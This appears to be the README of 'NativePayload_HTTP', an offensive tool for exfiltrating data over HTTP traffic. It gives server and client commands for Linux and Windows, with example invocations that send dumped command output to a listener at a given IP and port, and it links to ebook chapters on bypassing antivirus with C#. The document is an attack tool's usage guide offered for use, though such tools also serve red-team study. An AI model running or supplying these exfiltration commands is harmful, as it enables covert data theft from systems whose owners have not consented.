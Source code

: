 
# NativePayload_HTTP
Data Exfiltration via HTTP Traffic (C# and Shell Script)

this code has two parts: 1.Server-Side and 2.Client-Side

Note:in server-side this code tested by Kali linux only!

client-side tested by kali 2017-18 and ubuntu 14 also Windos7 and 2012

# 1.Server-Side (linux only):
./NativePayload_HTTP.sh -exfilwebserver

# 2.Client-Side (linux):
./NativePayload_HTTP.sh  -dumpcmd  [ServerIPv4]  [Port]  [Internal-delay]

Example: ./NativePayload_HTTP.sh  -dumpcmd   192.168.56.1  80  0.4

# 2.Client-Side (windows):
NativePayload_HTTP.exe  -dumpcmd  [ServerIPv4]  [Port] 

Example: NativePayload_HTTP.exe  -dumpcmd  192.168.56.1 80 

# Note: for more information and help (step by step) , Please read these PDF files:

NativePayload_HTTP (Part1): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part1.pdf

NativePayload_HTTP (Part2): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part2.pdf
